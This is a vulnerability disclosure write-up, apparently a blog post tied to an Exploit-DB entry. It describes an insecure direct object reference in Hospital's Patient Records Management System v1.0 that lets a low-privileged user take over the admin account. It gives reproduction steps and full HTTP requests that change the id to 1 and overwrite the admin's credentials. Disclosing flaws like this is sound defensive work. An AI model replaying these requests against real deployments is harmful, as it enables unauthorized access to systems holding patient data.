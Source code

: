 ```yaml
---
layout: post
title:  "Hospitals Patient Records Management System v1.0 — IDOR (Account Takeover)"
date:   2021-12-20 20:00:19 +0700
author: twseptian
pin: true
categories: [Infosec, CVE, Research]
tags: [cve, infosec]
---
```


```
- Exploit Title: Hospital's Patient Records Management System v1.0 - 'id' Insecure direct object references (IDOR) leads to Account TakeOver
- Date: 2021-12-30
- Exploit Author: twseptian
- Vendor Homepage: https://www.sourcecodester.com/php/15116/hospitals-patient-records-management-system-php-free-source-code.html
- Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/hprms_0.zip
- Version: v1.0
- Tested on: Kali Linux 2021.4
- Exploit-DB link: https://www.exploit-db.com/exploits/50631
```

## Introduction

I reviewed HPRMS v1.0 to assess how its admin area handles identity and authorization in routine CRUD flows. Applications with profile-edit features often expose object identifiers directly, and these are prime candidates for insecure direct object references (IDOR). My goal was to trace the update path for user profiles, verify whether object access was enforced server-side, and confirm the impact if it was not.

---

## Summary of the Finding
The user profile update flow in HPRMS v1.0 contains an insecure direct object reference (IDOR) that allows any authenticated low-privileged user to modify other users’ accounts, including the built-in administrator, by altering the client-supplied id parameter in the update request. Because the backend trusts this identifier without verifying ownership or enforcing object-level authorization, an attacker can overwrite the administrator’s username and password and then sign in as admin, effectively achieving full account takeover. This stems from missing server-side access controls on update operations and the reliance on a predictable, user-controlled object identifier.

---


## Reproduction steps (tested on local instance)
> Performed only on a local test instance for verification and learning.

- Authenticate as a low-privilege user (for example, `user1`, id `4`).  
- Open the account/profile update form and trigger a profile save operation.  
- Intercept the outgoing `POST` to `classes/Users.php?f=save`. The request contains fields such as `id`, `firstname`, `lastname`, `username`, `password`, and `img`.

```http
POST /hprms/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------17632878732301879013646251239
Content-Length: 806
Origin: http://localhost
Connection: close
Referer: http://localhost/hprms/admin/?page=user
Cookie: PHPSESSID=32kl57ct3p8nsicsrp8dte2c50
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="id"

4
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="firstname"

user1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="lastname"

admin
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="username"

admin1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="password"

admin1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------17632878732301879013646251239--
```

- Change `id` from `4` to the administrator id (commonly `1`) and alter the `username`/`password` values in the intercepted request.

```http
POST /hprms/classes/Users.php?f=save HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------17632878732301879013646251239
Content-Length: 806
Origin: http://localhost
Connection: close
Referer: http://localhost/hprms/admin/?page=user
Cookie: PHPSESSID=32kl57ct3p8nsicsrp8dte2c50
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="id"

1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="firstname"

user1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="lastname"

admin
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="username"

admin1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="password"

admin1
-----------------------------17632878732301879013646251239
Content-Disposition: form-data; name="img"; filename=""
Content-Type: application/octet-stream


-----------------------------17632878732301879013646251239--
```

- Forward the modified request. If the server accepts it without validating ownership or role, the attacker has effectively taken over the admin account.

